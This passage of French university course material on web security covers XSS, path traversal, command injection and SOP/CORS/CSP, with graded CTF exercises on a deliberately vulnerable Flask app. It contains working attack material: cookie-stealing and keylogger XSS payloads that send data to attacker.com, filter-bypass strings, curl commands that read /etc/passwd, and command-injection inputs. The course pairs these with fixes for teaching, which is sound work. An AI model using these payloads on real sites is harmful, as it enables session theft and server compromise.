    ...
```

> **À retenir**
> - La cause fondamentale de l'injection SQL est la **concaténation** de données contrôlées par l'utilisateur dans une requête : la correction est de les **séparer** via des paramètres liés.
> - L'ORM (SQLAlchemy) protège automatiquement — mais une requête brute avec `execute()` et f-string reste vulnérable même dans un projet ORM.
> - Si l'application retourne des résultats visibles : injection UNION. Si la réponse est opaque : blind (boolean ou time-based). Ce choix de technique conditionne l'outillage.
> - La validation d'entrée (Pydantic) est une **défense en profondeur**, pas un substitut aux requêtes paramétrées.

---

## Module 1.5 - Cross-Site Scripting / XSS (50 min)

> **Objectifs** — À l'issue de ce module, vous serez capables de :
> - Distinguer les trois types de XSS (reflected, stored, DOM-based) et identifier lequel s'applique à un contexte donné
> - Décrire l'impact concret d'un XSS : vol de cookie de session, keylogging, phishing ciblé
> - Construire un payload XSS de vol de cookie et expliquer son vecteur de diffusion
> - Corriger un XSS dans Flask/Jinja2 avec l'échappement automatique, `markupsafe.escape` ou Bleach
> - Appliquer l'échappement contextuel selon le contexte de sortie (HTML, JavaScript, URL)

### 1.5.1 Principe et types

Le XSS permet d'injecter du JavaScript exécuté dans le navigateur d'autres utilisateurs.

**Impacts classiques** :
- Vol de cookies de session (si non `HttpOnly`)
- Défiguration de page, redirection vers des sites de phishing
- Keylogging et capture des frappes utilisateur
- Actions non autorisées via les API (changement de mot de passe, transactions)

**Reflected XSS** : le payload est dans la requête, immédiatement reflété dans la réponse
```python
# 🚨 VULNÉRABLE
@app.route('/search')
def search():
    query = request.args.get('q', '')
    return f"<h1>Résultats pour : {query}</h1>"
# /search?q=<script>alert('XSS')</script>
```

**Stored XSS** : le payload est stocké en BDD et exécuté pour chaque visiteur
```python
# 🚨 VULNÉRABLE
@app.route('/comment', methods=['POST'])
def add_comment():
    comment = request.form['comment']
    db.add_comment(comment)  # Stocké tel quel
    return redirect('/comments')

@app.route('/comments')
def show_comments():
    comments = db.get_comments()
    html = ""
    for c in comments:
        html += f"<div>{c}</div>"  # Pas d'échappement !
    return html
```

**DOM-based XSS** : manipulation côté client uniquement
```javascript
// 🚨 VULNÉRABLE - côté client
const params = new URLSearchParams(window.location.search);
document.getElementById('welcome').innerHTML = 'Bonjour ' + params.get('name');
// /page?name=
```

**Différence entre les trois types** :
- **XSS reflété** : non persistant (transmis via un lien)
- **XSS stocké** : persiste en base de données et touche tous les visiteurs
- **XSS DOM-based** : ne quitte jamais le navigateur (manipulation du DOM local)



### 1.5.2 Exploitation pratique

**Exemple 1 : XSS Reflected - vol de cookie**

```python
# scripts/xss_reflected.py
import requests

target = "http://localhost:5000/search"
attacker_server = "http://attacker.com/steal"

# Payload qui exfiltre le cookie de session
payload = f"""<script>
fetch('{attacker_server}?c=' + encodeURIComponent(document.cookie))
</script>"""

# Lien malveillant à envoyer à la victime
malicious_url = f"{target}?q={requests.utils.quote(payload)}"
print(f"🎣 URL de phishing : {malicious_url}")
```

**Exemple 2 : XSS Stored - keylogger**

```html
<!-- Payload posté en commentaire -->
<script>
document.addEventListener('keypress', function(e) {
    fetch('http://attacker.com/log', {
        method: 'POST',
        body: JSON.stringify({key: e.key, url: location.href})
    });
});
</script>
```

**Exemple 3 : Contournement de filtres**

```python
# Filtres courants et bypass
filters_bypass = [
    # Filtre <script> → utiliser un événement
    "",

    # Filtre des guillemets → utiliser sans guillemets
    "<svg onload=alert(1)>",

    # Filtre 'alert' → encodage
    "",

    # Filtre HTML basique → encodage HTML
    "&#60;script&#62;alert(1)&#60;/script&#62;",

    # Filtre mots-clés → casse mixte
    "<ScRiPt>alert(1)</ScRiPt>",

    # Polyglot universel
    "javascript:/*--></title></style></textarea></script></xmp>"
    "<svg/onload='+/\"/+/onmouseover=1/+/[*/[]/+alert(1)//'>",
]
```

Les exemples précédents montrent que le XSS peut servir à des fins très variées — vol de session, surveillance passive, phishing. Les protections qui suivent s'appliquent à tous les types : la règle fondamentale est d'**échapper les données selon le contexte de sortie** (HTML, JavaScript, URL), jamais de façon générique.

### 1.5.3 Protection en Python/Flask

**Méthode 1 : Échappement automatique avec Jinja2**

```python
# ✅ SÉCURISÉ - Jinja2 échappe automatiquement
from flask import render_template

@app.route('/search')
def search():
    query = request.args.get('q', '')
    return render_template('search.html', query=query)
```

```html
<!-- templates/search.html -->
<!-- {{ query }} est automatiquement échappé -->
<h1>Résultats pour : {{ query }}</h1>

<!-- ATTENTION : | safe désactive l'échappement → DANGER -->
<h1>{{ query | safe }}</h1>  <!-- 🚨 VULNÉRABLE -->
```

**Méthode 2 : Échappement manuel**

```python
# ✅ SÉCURISÉ - échappement explicite
from markupsafe import escape

@app.route('/search')
def search():
    query = request.args.get('q', '')
    return f"<h1>Résultats pour : {escape(query)}</h1>"
```

**Méthode 3 : Sanitization avec bleach (pour HTML riche)**

```python
# ✅ SÉCURISÉ - autoriser certaines balises sûres
import bleach

ALLOWED_TAGS = ['b', 'i', 'em', 'strong', 'p', 'br']
ALLOWED_ATTRIBUTES = {}

@app.route('/comment', methods=['POST'])
def add_comment():
    raw_comment = request.form['comment']
    clean_comment = bleach.clean(
        raw_comment,
        tags=ALLOWED_TAGS,
        attributes=ALLOWED_ATTRIBUTES,
        strip=True
    )
    db.add_comment(clean_comment)
    return redirect('/comments')
```

**Méthode 4 : Validation stricte avec contexte**

```python
# ✅ Échappement contextuel
from markupsafe import escape
import json

@app.route('/profile')
def profile():
    username = get_current_user().username

    # Contexte HTML
    html_safe = escape(username)

    # Contexte JavaScript
    js_safe = json.dumps(username)  # Quote + escape pour JS

    # Contexte URL
    from urllib.parse import quote
    url_safe = quote(username)

    return render_template('profile.html',
                          html_user=html_safe,
                          js_user=js_safe,
                          url_user=url_safe)
```

> **À retenir**
> - **Règle d'or** : ne jamais injecter de données utilisateur directement dans du HTML, du JavaScript ou une URL — toujours échapper selon le contexte de sortie.
> - `{{ var }}` dans Jinja2 est sûr par défaut. `{{ var | safe }}` est dangereux : n'utiliser que pour du contenu généré ou validé par votre propre code.
> - Le XSS stocké est le plus grave : un seul payload compromet **tous les visiteurs** de la page, y compris les administrateurs.
> - CSP est la défense en profondeur côté navigateur : elle ne remplace pas l'échappement côté serveur, mais réduit l'impact des XSS résiduels.

---

## Module 1.7 - Injections système : Path Traversal et Command Injection (20 min)

> **Objectifs** — À l'issue de ce module, vous serez capables de :
> - Identifier et exploiter une vulnérabilité de traversée de répertoire
> - Identifier et exploiter une injection de commandes système
> - Comprendre pourquoi `shell=True` est dangereux en Python
> - Implémenter des défenses : listes blanches, validation stricte, séparation des arguments

### 1.7.1 Path Traversal (Traversée de répertoire)

**Principe :** Un utilisateur peut traverser la hiérarchie de répertoires en utilisant `../` pour accéder à des fichiers en dehors du répertoire attendu.

**Exemple vulnérable :**
```python
# Route /download?file=rapport.pdf
@app.route('/download')
def download():
    filename = request.args.get('file', '')
    filepath = os.path.join('uploads', filename)
    return send_file(filepath, as_attachment=True)

# Attaque :
# /download?file=../../etc/passwd    → accès à /etc/passwd
# /download?file=../app.py           → code source exposé
```

**Impact :** Vol de fichiers sensibles (config, code source, données client).

**Exploits pratiques :**
```bash
curl "http://localhost:5000/download?file=../app.py"
curl "http://localhost:5000/download?file=../../etc/passwd"
```

**Défense — couches successives :**

1. **secure_filename()** — supprime les caractères dangereux
```python
from werkzeug.utils import secure_filename
safe_name = secure_filename('../../etc/passwd')  # → 'etcpasswd'
```

2. **Vérification d'extension** — liste blanche
```python
ALLOWED_EXTS = {'pdf', 'txt', 'docx'}
if not safe_name.lower().split('.')[-1] in ALLOWED_EXTS:
    abort(400)
```

3. **Vérification du chemin réel** — `realpath()` + commonpath
```python
import os
base_real = os.path.realpath('uploads')
target = os.path.realpath(os.path.join(base_real, safe_name))

# Vérifier que target reste dans base_real
if os.path.commonpath([base_real, target]) != base_real:
    abort(404)  # Fichier hors de uploads/
```

4. **send_from_directory()** — protection intégrée de Flask
```python
return send_from_directory('uploads', safe_name, as_attachment=True)
```

> **À retenir**
> - Ne jamais faire confiance aux noms de fichiers utilisateurs
> - Toujours utiliser `os.path.realpath()` + vérification du chemin
> - CWE-22, OWASP A01 : Path Traversal

---

### 1.7.2 Injection de commandes système

**Principe :** Un utilisateur peut injecter des commandes système si `subprocess` utilise `shell=True` avec une entrée non validée.

**Exemple vulnérable :**
```python
import subprocess

@app.route('/ping', methods=['POST'])
def ping():
    host = request.form.get('host', '')
    # ❌ VULNÉRABLE : shell=True + pas de validation
    result = subprocess.check_output(
        f"ping -c 1 {host}",  # f-string = concaténation
        shell=True
    ).decode()
    return result

# Attaque :
# POST /ping → host='localhost; cat /etc/passwd'
# Commande exécutée : ping -c 1 localhost; cat /etc/passwd
# → Les deux commandes s'exécutent séquentiellement
```

**Impact :** Exécution arbitraire de code système — accès total au serveur.

**Exploits pratiques :**
```bash
curl -X POST http://localhost:5000/ping \
  -d "host=localhost; id"
curl -X POST http://localhost:5000/ping \
  -d "host=localhost; cat /etc/passwd"
```

**Défense — pourquoi `shell=False` protège :**

```python
import subprocess
from security import is_safe_host  # Validation anti-SSRF

@app.route('/ping', methods=['POST'])
@login_required
def ping():
    host = request.form.get('host', '')
    
    # ✅ Validation stricte
    if not is_safe_host(host):
        return "Host not allowed", 400
    
    # ✅ Liste d'arguments, NOT une chaîne → shell=False
    result = subprocess.run(
        ['ping', '-c', '1', '-W', '2', host],  # ← Liste, pas f-string
        capture_output=True,
        text=True,
        timeout=5,
        shell=False  # ← Pas de shell = pas d'interprétation de ; | &
    )
    return result.stdout
```

**Pourquoi cela fonctionne :**
```
shell=True  → /bin/sh -c "ping -c 1 localhost; cat /etc/passwd"
              Le shell voit ; et exécute les deux commandes ❌

shell=False → execve('ping', ['-c', '1', '-W', '2', 'localhost; cat /etc/passwd'])
              Le programme 'ping' reçoit le payload comme argument littéral
              → ping ne reconnaît pas cet argument et échoue silencieusement ✅
```

**Règle d'or :**
- **Jamais** `subprocess.check_output(f"...", shell=True)`
- **Toujours** `subprocess.run(['cmd', 'arg1', 'arg2'], shell=False)`
- **Valider** l'entrée contre une allowlist (hostname, IP publique)

> **À retenir**
> - CWE-78 : Injection de commandes système (OWASP A03)
> - `shell=True` est une mine anti-personnel : éviter absolument
> - Passer les arguments sous forme de liste `['cmd', 'arg']` empêche l'injection
> - Toujours valider + limiter les entrées possibles (allowlist)

---

## Module 1.6 - Protections navigateur (30 min)

> **Objectifs** — À l'issue de ce module, vous serez capables de :
> - Déterminer si deux URLs partagent la même origine et en déduire les restrictions SOP applicables
> - Configurer CORS de façon restrictive avec Flask-CORS pour une API
> - Rédiger une politique CSP minimale et l'appliquer progressivement via Flask-Talisman
> - Articuler les rôles complémentaires de SOP, CORS, CSP et HSTS dans la chaîne de protection

### 1.6.1 Same-Origin Policy (SOP)

Une origine = **Protocole + Domaine + Port**

```
https://app.com:443/page1  ✅ même origine que  https://app.com:443/page2
https://app.com           ❌ différente de       http://app.com   (protocole)
https://app.com           ❌ différente de       https://api.app.com (sous-domaine)
https://app.com:443       ❌ différente de       https://app.com:8443 (port)
```



### 1.6.2 CORS (Cross-Origin Resource Sharing)

Mécanisme contrôlé pour autoriser des requêtes cross-origin légitimes.

```python
# ✅ Configuration CORS sécurisée avec Flask-CORS
from flask_cors import CORS

app = Flask(__name__)

# Configuration RESTRICTIVE recommandée
CORS(app,
     resources={r"/api/*": {
         "origins": ["https://trusted-frontend.com"],  # PAS de *
         "methods": ["GET", "POST", "PUT", "DELETE"],
         "allow_headers": ["Content-Type", "Authorization"],
         "supports_credentials": True,
         "max_age": 3600
     }})
```

**❌ Configuration dangereuse à éviter** :

```python
# 🚨 NE JAMAIS FAIRE
CORS(app, origins="*", supports_credentials=True)
# Combinaison * + credentials = catastrophe sécurité
```

**Quand un preflight est-il déclenché ?** Le navigateur envoie une requête OPTIONS préliminaire pour les requêtes dites *non simples* :
- Méthode autre que GET, POST, HEAD
- Headers personnalisés (Authorization, X-Requested-With...)
- Content-Type différent de `application/x-www-form-urlencoded`, `multipart/form-data`, `text/plain`

### 1.6.3 Content Security Policy (CSP)

CSP permet de définir une whitelist des sources autorisées pour chaque type de ressource.

```python
# ✅ Configuration CSP avec Flask-Talisman
from flask_talisman import Talisman

csp = {
    'default-src': "'self'",
    'script-src': [
        "'self'",
        'https://cdn.jsdelivr.net',
        "'nonce-{nonce}'"  # Nonce pour scripts inline
    ],
    'style-src': [
        "'self'",
        "'unsafe-inline'"  # Tolérable pour styles
    ],
    'img-src': ["'self'", 'data:', 'https:'],
    'font-src': ["'self'", 'https://fonts.gstatic.com'],
    'connect-src': "'self'",
    'frame-ancestors': "'none'",  # Anti-clickjacking
    'form-action': "'self'",
    'base-uri': "'self'",
    'object-src': "'none'"
}

Talisman(app,
         content_security_policy=csp,
         content_security_policy_nonce_in=['script-src'])
```

**Configuration manuelle des headers** :

```python
# ✅ Headers de sécurité manuels
@app.after_request
def set_security_headers(response):
    response.headers['Content-Security-Policy'] = (
        "default-src 'self'; "
        "script-src 'self' 'nonce-abc123'; "
        "style-src 'self' 'unsafe-inline'; "
        "img-src 'self' data:; "
        "frame-ancestors 'none'"
    )
    response.headers['X-Content-Type-Options'] = 'nosniff'
    response.headers['X-Frame-Options'] = 'DENY'
    response.headers['Referrer-Policy'] = 'strict-origin-when-cross-origin'
    return response
```

**Stratégie de déploiement progressif de CSP** :

1. Commencer par `Content-Security-Policy-Report-Only` pour observer les violations sans bloquer le trafic :
   ```http
   Content-Security-Policy-Report-Only: default-src 'self'; report-uri /csp-violations
   ```
2. Analyser les rapports de violation pour identifier les sources légitimes à autoriser.
3. Passer en `Content-Security-Policy` une fois toutes les violations corrigées.
4. Utiliser des **nonces** générés par requête pour les scripts inline indispensables plutôt que `'unsafe-inline'`.

### 1.6.4 Tableau comparatif

| Mécanisme | Rôle | Configuration |
|-----------|------|---------------|
| **SOP** | Isolation par défaut entre origines | Automatique navigateur |
| **CORS** | Exceptions contrôlées à SOP | Headers serveur |
| **CSP** | Whitelist de sources de contenu | Header HTTP ou meta |
| **HSTS** | Force HTTPS | Header `Strict-Transport-Security` |

**Séquence d'appel cross-origin avec CORS** : le navigateur envoie d'abord une requête preflight OPTIONS pour vérifier les droits, puis la requête réelle si autorisée.



> **À retenir**
> - **SOP** isole les origines par défaut ; **CORS** ouvre des exceptions contrôlées ; **CSP** filtre les sources de contenu.
> - `Access-Control-Allow-Origin: *` combiné à `Access-Control-Allow-Credentials: true` est **interdit** : cette combinaison annule toute protection CSRF basée sur l'origine.
> - Déployer CSP en mode `Report-Only` d'abord pour observer les violations sans bloquer de trafic légitime, puis passer en mode bloquant une fois la politique stabilisée.
> - Ces quatre mécanismes sont complémentaires et non substituables : SOP (isolation) → CORS (exception contrôlée) → CSP (whitelist contenu) → HSTS (force TLS).

---

# 📝 EXERCICES SÉANCE 1

## Exercice 1.A - Cartographie et analyse RGPD (Rendu en fin de séance)
**Durée : 45 min - Pondération : — (lab guidé en séance)**

### Contexte
Vous venez de rejoindre l'équipe de développement d'une plateforme e-commerce. Vous devez réaliser un audit initial de l'application VulnPyApp.

### Travail demandé

**Partie 1 - Cartographie automatisée (15 min)**

Créer un script `cartographie.py` qui :
1. Crawl l'application complète
2. Identifie tous les endpoints (URL distinctes)
3. Liste tous les formulaires avec leurs champs
4. Détecte les endpoints API (routes `/api/*`)
5. Génère un rapport au format Markdown

**Squelette fourni** :

```python
# cartographie.py
import requests
from bs4 import BeautifulSoup
from urllib.parse import urljoin, urlparse
import json

class SecurityAuditor:
    def __init__(self, base_url):
        self.base_url = base_url
        self.report = {
            'endpoints': set(),
            'forms': [],
            'apis': set(),
            'sensitive_data': []
        }

    def crawl(self, url=None, depth=0, max_depth=3):
        # TODO : Implémenter le crawler
        pass

    def detect_sensitive_data(self, response):
        # TODO : Détecter emails, numéros de téléphone, etc.
        # Utiliser des regex pour identifier des patterns sensibles
        pass

    def generate_markdown_report(self):
        # TODO : Générer un rapport Markdown
        pass

if __name__ == '__main__':
    auditor = SecurityAuditor('http://localhost:5000')
    auditor.crawl()
    print(auditor.generate_markdown_report())
```

**Partie 2 - Analyse RGPD (30 min)**

Rédiger un document `analyse_rgpd.md` contenant :

1. **Matrice des risques** (minimum 8 fonctionnalités) :

| Fonctionnalité | Données collectées | Base légale RGPD | Menaces | Impact (1-5) | Probabilité (1-5) | Score risque |
|----------------|-------------------|------------------|---------|--------------|-------------------|--------------|
| ... | ... | ... | ... | ... | ... | ... |

2. **Checklist RGPD** détaillée avec analyse pour chaque point :
   - Minimisation des données
   - Consentement explicite tracé
   - Droit d'accès implémenté
   - Droit à l'effacement
   - Portabilité
   - Procédure de notification de fuite
   - Politique de conservation
   - Chiffrement des données sensibles

3. **3 non-conformités majeures identifiées** avec recommandations techniques

### Livrables attendus
- `cartographie.py` (script fonctionnel)
- `rapport_cartographie.md` (généré)
- `analyse_rgpd.md` (rédigé)

### Critères d'évaluation
- Fonctionnalité du script de cartographie (30%)
- Exhaustivité de la matrice des risques (30%)
- Pertinence de l'analyse RGPD (30%)
- Qualité rédactionnelle et structuration (10%)

---

## Exercice 1.B - CTF Injections SQL & XSS (Travail en binôme)

```
┌─────────────────────────────────────────────────────────────┐
│  Durée : 2h en séance + 1 semaine pour le rapport           │
│  Rendu : archive ZIP sur la plateforme avant dimanche 23h59 │
│  Pondération : 20% de la note finale                        │
└─────────────────────────────────────────────────────────────┘
```

### 🎯 Objectifs pédagogiques

À l'issue de cet exercice vous serez capables de :
- Identifier et exploiter des injections SQL (classique, UNION, blind)
- Identifier et exploiter des XSS réfléchies et stockées
- Proposer des corrections de code adaptées
- Rédiger un rapport technique structuré

---

### 🏗️ Setup

**Important :** VulnPyApp existe en deux versions :
- **Branche `student-starter`** : Application volontairement vulnérable avec les 15 vulnérabilités marquées `🚨 VULN #1..#15`. À utiliser pour cette séance.
- **Branche `main` / `remediated`** : Version sécurisée avec les corrections marquées `✅ FIX #1..#15`. Utilisée en fin de séance pour comparaison.

```bash
# 1. Cloner le dépôt (lien fourni par l'enseignant)
git clone <URL_INSTITUTIONNELLE>/vulnpyapp.git
cd vulnpyapp

# 2. Sélectionner la branche vulnérable (défaut pour cette séance)
git checkout student-starter
# ✅ Vous êtes maintenant sur la version avec 15 vulnérabilités marquées 🚨 VULN #N

# 3. Lancer l'application
docker-compose up --build

# 4. Vérifier que l'app est accessible
curl http://localhost:5000
# → Vous devez voir la page d'accueil

# 5. Comptes de test disponibles
# alice@vulnpyapp.local / Alice123!  (utilisateur normal)
# bob@vulnpyapp.local   / Bobby123!   (utilisateur normal)
# admin@vulnpyapp.local / Admin123! (admin - à découvrir !)
```

---

### 📋 PARTIE A — Exploitation (60 pts)

#### Challenge 1 — SQL Injection Login Bypass *(10 pts)*

**Contexte :** La page `/login` est vulnérable à une injection SQL.

**Objectif :** Vous connecter en tant qu'administrateur **sans connaître son mot de passe**.

**Travail attendu :**
1. Identifier le champ vulnérable
2. Construire un payload de bypass
3. Capturer une preuve (screenshot de la page admin accessible)
4. Expliquer pourquoi ce payload fonctionne (logique SQL)

**Indice :** Pensez aux opérateurs SQL `OR` et aux commentaires `--`

```
Rapport attendu :
├── Payload utilisé
├── Requête SQL générée (reconstituée)
├── Screenshot de preuve
└── Explication technique (5 lignes minimum)
```

---

#### Challenge 2 — SQL Injection UNION (dump de données) *(15 pts)*

**Contexte :** La route `/search` est vulnérable à une injection UNION.

**Objectif :** Extraire la liste des utilisateurs (emails + hash de mots de passe) depuis la base de données.

**Étapes guidées :**

```sql
-- Étape 1 : Déterminer le nombre de colonnes
-- Essayez des payloads ORDER BY jusqu'à obtenir une erreur
?q=' ORDER BY 1--
?q=' ORDER BY 2--
...

-- Étape 2 : Identifier les colonnes affichées
?q=' UNION SELECT NULL,NULL,...--

-- Étape 3 : Extraire les données de la table 'user'
?q=' UNION SELECT ...
```

**Travail attendu :**
1. Script Python (`exploit_sqli_union.py`) automatisant l'extraction
2. Fichier `dump_users.txt` avec les données extraites
3. Analyse : les mots de passe hashés sont-ils craquables ?

---

#### Challenge 3 — Énumération d'API & Information Disclosure *(20 pts)*

**Contexte :** Vous venez de découvrir que la route `/api/users/<id>` retourne des données utilisateur sans demander de vérification supplémentaire. Analysez ce qui est accessible.

**Objectif :** Sans nécessairement connaître le nom technique de cette vulnérabilité, énumérez les utilisateurs en itérant sur les IDs et cartographiez l'impact informationnel.

**Principe :**
```
/api/users/1   → { "id": 1, "email": "admin@...", "is_admin": true, ... }
/api/users/2   → { "id": 2, "email": "alice@...",  "is_admin": false, ... }
/api/users/3   → { "id": 3, "email": "bob@...",    "is_admin": false, ... }

→ En itérant les ID, vous pouvez mapper les données exposées par défaut
```

**Travail attendu :**
1. Script Python (`exploit_api_enum.py`) automatisant l'énumération des utilisateurs
2. Fichier `users_enumeration.json` listant les utilisateurs découverts et les champs exposés
3. Analyse d'impact : quelles informations sensibles sont accessibles sans authentification ?

**Bonus facultatif :** Proposer une correction empêchant cette énumération

> **📚 Note pédagogique :** Cette vulnérabilité appartient à la famille **IDOR** (Insecure Direct Object Reference), qui sera formalisée et expliquée en profondeur en Séance 2 — Module 2.2. Vous l'explorez maintenant de manière empirique pour développer votre intuition de sécurité.

---

#### Challenge 4 — XSS Réfléchie *(5 pts)*

**Contexte :** La route `/search` réfléchit le paramètre `q` sans encodage.

**Objectif :** Exécuter `alert(document.cookie)` dans le navigateur.

**Travail attendu :**
1. URL complète déclenchant le XSS
2. Screenshot de l'alerte avec le cookie de session visible
3. Scénario d'attaque réaliste (comment un attaquant exploiterait ceci)

---

#### Challenge 5 — XSS Stockée *(10 pts)*

**Contexte :** Les commentaires sont affichés sans sanitization.

**Objectif 1 :** Poster un commentaire qui vole le cookie de tout visiteur.

**Objectif 2 :** Mettre en place un "keylogger" JavaScript (capture les frappes clavier).

**Simulation :**
```python
# Simuler une victime visitant la page :
# Ouvrir un second navigateur (ou fenêtre privée) connecté avec alice
# → Le payload doit s'exécuter dans ce contexte
```

**Travail attendu :**
1. Payload XSS utilisé
2. Script `evil_server.py` (serveur recevant les données volées)
3. Preuve de réception des cookies/frappes

---

### 📋 PARTIE B — Corrections (40 pts)

Pour chaque vulnérabilité identifiée, fournir :

#### Structure de correction attendue

```python
# fichier : corrections/routes_fixed.py

# ─── CORRECTION 1 : SQL Injection Login ───────────────────
# Vulnérabilité : CWE-89
# Ligne originale vulnérable : 45
# Principe de correction : requêtes paramétrées via ORM

# CODE VULNÉRABLE (à titre d'illustration) :
# query = f"SELECT * FROM user WHERE email = '{email}'"

# ✅ CODE CORRIGÉ :
user = User.query.filter_by(email=email).first()
if user and user.check_password(password):
    login_user(user)
```

#### Grille de correction Partie B

| Correction | Critères | Points |
|------------|----------|--------|
| SQLi Login | ORM/params, pas de concaténation, test inclus | /8 |
| SQLi Search | ilike paramétré, limitation résultats | /8 |
| XSS Réfléchie | Suppression \|safe, autoescape actif | /6 |
| XSS Stockée | Bleach avec allowlist, preuve test | /10 |
| Bypass filtres XSS (bonus) | CSP header fonctionnel | /+5 |

---

### 📦 Livrables attendus

```
<NOM1>_<NOM2>_ctf_s1.zip
├── exploits/
│   ├── exploit_sqli_login.py      # Challenge 1
│   ├── exploit_sqli_union.py      # Challenge 2
│   ├── exploit_idor_users.py      # Challenge 3
│   ├── exploit_xss_reflected.py   # Challenge 4 (ou URL + explication)
│   └── exploit_xss_stored.py      # Challenge 5
├── corrections/
│   ├── routes_fixed.py
│   └── templates_fixed/
│       ├── search.html
│       └── comments.html
├── preuves/
│   ├── screenshot_sqli_bypass.png
│   ├── dump_users.txt
│   ├── screenshot_xss_reflected.png
│   └── screenshot_xss_stored.png
└── rapport.md
```

### 📝 Template rapport.md

````markdown
# Rapport CTF - Injections SQL & XSS
**Binôme :** Prénom NOM 1 / Prénom NOM 2
**Date :** JJ/MM/AAAA
**Version VulnPyApp :** student-starter

## Résumé exécutif
[3-5 lignes : vulnérabilités trouvées, impact global]

## Challenge 1 - SQLi Login Bypass
### Vulnérabilité identifiée
- Fichier : app.py, ligne X
- Type : CWE-89
- CVSS v3.1 Score : X.X (Vecteur : ...)

### Exploitation
**Payload :**
```
[votre payload]
```
**Requête SQL générée :**
```sql
[requête reconstituée]
```
**Preuve :** [screenshot]

### Correction appliquée
[code corrigé commenté]

### Vérification
[test prouvant que la correction fonctionne]

---
[Répéter pour chaque challenge]

## Bilan
| Challenge | Exploité | Corrigé | Points estimés |
|-----------|----------|---------|----------------|
| 1 SQLi Login | ✅/❌ | ✅/❌ | /10 |
| 2 SQLi UNION | ✅/❌ | ✅/❌ | /15 |
| 3 IDOR / Info Disclosure | ✅/❌ | ✅/❌ | /20 |
| 4 XSS Reflect | ✅/❌ | ✅/❌ | /5 |
| 5 XSS Stored | ✅/❌ | ✅/❌ | /10 |

## Difficultés rencontrées
[Ce qui a posé problème, comment vous avez résolu]

## Sources consultées
[Références OWASP, PortSwigger, etc.]
````

---

### ⚖️ Grille d'évaluation CTF

```
┌──────────────────────────────────────────────────────────────┐
│                    GRILLE D'ÉVALUATION                       │
│                   CTF - Injections / XSS                     │
├─────────────────────────────┬────────┬──────────────────────┤
│ Critère                     │ Points │ Détail               │
├─────────────────────────────┼────────┼──────────────────────┤
│ EXPLOITATION (60%)          │        │                      │
│  Challenge 1 - SQLi Login   │ /10    │ Payload + explication│
│  Challenge 2 - UNION dump   │ /15    │ Script + données     │
│  Challenge 3 - IDOR / Info Disclosure │ /20    │ Script + analyse d'impact │
│  Challenge 4 - XSS Reflect  │ /5     │ URL + screenshot     │
│  Challenge 5 - XSS Stored   │ /10    │ Payload + preuve     │
├─────────────────────────────┼────────┼──────────────────────┤
│ CORRECTIONS (40%)           │        │                      │
│  SQLi Login fix             │ /8     │ Code + test          │
│  SQLi Search fix            │ /8     │ Code + test          │
│  XSS Réfléchie fix          │ /6     │ Template corrigé     │
│  XSS Stockée fix + Bleach   │ /10    │ Code + allowlist     │
│  Tests pytest passants      │ /8     │ ≥80% de réussite     │
├─────────────────────────────┼────────┼──────────────────────┤
│ QUALITÉ RAPPORT             │ /10    │ Structure, clarté    │
├─────────────────────────────┼────────┼──────────────────────┤
│ BONUS                       │        │                      │
│  CSP header fonctionnel     │ +5     │                      │
│  Correction IDOR complète   │ +3     │                      │
│  Bypass filtre XSS          │ +3     │                      │
├─────────────────────────────┼────────┼──────────────────────┤
│ TOTAL                       │ /100   │                      │
└─────────────────────────────┴────────┴──────────────────────┘

Pénalités :
  - Rapport absent ou < 1 page : -20 pts
  - Code copié sans compréhension démontrée : -30 pts
  - Rendu en retard (>24h) : -10 pts/jour
```

> **📚 Ressource d'aide** : Si vous êtes bloqué depuis plus de 20 minutes sur une vulnérabilité, consultez `docs/guide_correction.md` — ce guide contient des indices progressifs (niveau 1 → niveau 2 → solution complète) pour les vulnérabilités #1 à #15.

---

## Exercice 1.C - Quiz fondamentaux (Fin de séance)
**Durée : 15 min - Pondération : 10%**

QCM de 20 questions sur :
- Triade CIA et concepts fondamentaux
- Principes RGPD applicables
- Mécanismes d'injection SQL
- Types et fonctionnement des XSS
- SOP, CORS, CSP

---

